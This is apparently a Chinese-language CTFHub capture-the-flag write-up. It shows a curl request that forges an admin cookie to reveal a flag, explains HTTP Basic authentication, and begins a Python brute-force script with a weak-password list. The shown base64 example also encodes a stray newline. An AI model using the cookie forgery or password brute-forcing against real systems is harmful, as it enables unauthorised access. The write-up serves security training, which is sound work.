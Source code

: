 可以看到有个 cookie: `admin=0`。修改成 `admin=1`:

```bash
$ curl -i -H "Cookie: admin=1" "http://challenge-69089ea35fc8ddac.sandbox.ctfhub.com:10800/"
HTTP/1.1 200 OK
Server: openresty/1.21.4.2
Date: Thu, 19 Dec 2024 08:53:19 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/5.6.40
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With
Access-Control-Allow-Methods: *

ctfhub{71c22e974f97fc93ec070b99}
```

flag: `ctfhub{71c22e974f97fc93ec070b99}`

### 信息泄露 - 基础认证

```bash
$ curl -i "http://challenge-9ab9e243ade97b54.sandbox.ctfhub.com:10800/flag.html"
HTTP/1.1 401 Unauthorized
Server: openresty/1.21.4.2
Date: Thu, 19 Dec 2024 08:54:25 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 179
Connection: keep-alive
WWW-Authenticate: Basic realm="Do u know admin ?"

<html>
<head><title>401 Authorization Required</title></head>
<body>
<center><h1>401 Authorization Required</h1></center>
<hr><center>nginx/1.16.1</center>
</body>
</html>
```

看到 `WWW-Authenticate: Basic realm="Do u know admin ?"`

查一下 `WwW-Authenticate` 这个 header 的文档，大致意思是，对于用户输入的账号 `admin` 和密码 `pass`，做以下处理：
1. 拼接成一个字符串，用冒号隔开：`admin:pass`
2. base64 encode：`YWRtaW46cGFzcwo=`
3. 在请求头中带上凭证：`Authorization: Basic YWRtaW46cGFzcwo=`

同时还给了一个附件，常见弱口令 top 100，那么题目要求就非常清晰了，写几行代码爆破一下就可以了

```python
import requests
import base64

wordlist: str = """
123456
password
line
12345678
qwerty
123456789
12345
1234
111111
1234567
<omitted ...>
"""
```